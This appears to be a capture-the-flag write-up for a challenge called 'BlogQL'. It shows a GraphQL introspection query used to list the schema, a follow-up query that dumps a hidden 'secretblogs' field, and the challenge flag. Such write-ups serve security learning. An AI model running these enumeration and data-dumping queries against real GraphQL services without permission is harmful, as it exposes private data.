


# BlogQL 
after research and read chall content we will figure out it use graphql as database :)
## Target 
[\*] Get Flag :)  
## Solution 
First of all we know its uses graphql to make sure of that go to /graphql?query={PAYLOAD} 
we will search for payload to get all tables name so we can find where is the flag
`query {
  __schema {
    queryType {
      fields {
        name
        type {
          kind
          ofType {
            kind
            name
          }
        }
      }
    }
  }
}` 
after excute the payload above we will find this 
 
**Yeyyy.. We are too close :)** 
now all we have to do fetch all data from it :D 
`{
    secretblogs{
        content
    }
}` 
 
**flag : flag{ea6a3da74909e79a8aa38005c6810893_d1d_In7r0speC7i0n_wORk_F0r_gRaPhqL}** 